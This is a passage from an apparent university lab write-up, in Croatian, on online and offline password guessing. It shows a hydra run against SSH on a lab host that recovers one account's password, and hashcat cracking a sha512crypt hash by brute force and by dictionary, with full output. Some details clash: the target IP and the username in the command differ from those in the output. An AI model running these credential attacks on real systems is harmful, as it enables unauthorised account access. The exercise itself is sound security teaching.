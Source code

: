 -zatim sa servera skidamo riječnik koji ima poprilično manje kombinacija kako bi se moglo izvršiti u nekom razumnom vremenu i pokrenemo provjeravanje nalazi li se lozinka u tom riječniku

-ako pronađe lozinku ispiše je na ekran zajedno s ostalim podatcima

```powershell
wget -r -nH -np --reject "index.html*" http://a507-server.local:8080/dictionary/g3/

student@DESKTOP-7Q0BASR:/mnt/c/Users/A507$ hydra -l jukic_borna -P dictionary/g3/dictionary_online.txt 10.0.15.10 -V -t 4 ssh
[ATTEMPT] target 10.0.15.1 - login "jukic_borna" - pass "kajjeg" - 1 of 878 [child 0] (0/0)
[ATTEMPT] target 10.0.15.1 - login "jukic_borna" - pass "kajttg" - 2 of 878 [child 1] (0/0)

...

[ATTEMPT] target 10.0.15.1 - login "jukic_borna" - pass "jabsle" - 68 of 878 [child 1] (0/0)
[22][ssh] host: 10.0.15.1 login: zupanovic_karmen password: soicly
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2021-12-20 13:50:13
```

### Offline password guessing napad

-za ovaj zadatak koristit ćemo alat hashcat, no kako je već rečeno ovdje se ne komunicira sa serverom nego se dohvaćeni hash uspoređuje s onima u datoteci koju smo dobili

-prvo pokušamo s brute forceom (pretpostavljajući da se šifra sastoji od 6 malih slova) isprobati sve kombinacije 

```powershell
hashcat --force -m 1800 -a 3 hash.txt ?l?l?l?l?l?l --status --status-timer 10
hashcat (v4.0.1) starting...
```

-no kako za to treba previše vremena koristimo datoteku u kojoj su već upisane lozinke koje trebamo isprobat kako bi zadatak završili u realnom vremenu 

```powershell
hashcat --force -m 1800 -a 0 hash.txt dictionary/g3/dictionary_offline.txt --status --status-timer 10

$6$KpWlRjFxrYFIcFV2$fFeRQEO6lGDwxx4BdYspd8ORj3OjL.HqDOGPQvG2OSTa/D0R22ROj/vfTnlvYxfDbeP7b6LrOR8w5zt/en6dT/:abteve
Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$KpWlRjFxrYFIcFV2$fFeRQEO6lGDwxx4BdYspd8ORj3OjL.H...en6dT/
Time.Started.....: Tue Dec 26 14:19:10 2021 (19 secs)
Time.Estimated...: Tue Dec 26 14:19:29 2021 (0 secs)
Guess.Base.......: File (dictionary/g3/dictionary_offline.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.Dev.#1.....: 88 H/s (9.82ms)
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 1664/50078 (3.32%)
Rejected.........: 0/1664 (0.00%)
Restore.Point....: 1536/50078 (3.07%)
Candidates.#1....: ketata -> kklzng
HWMon.Dev.#1.....: N/A
Started: Tue Dec 26 14:19:01 2021
Stopped: Tue Dec 26 14:19:30 2021
```
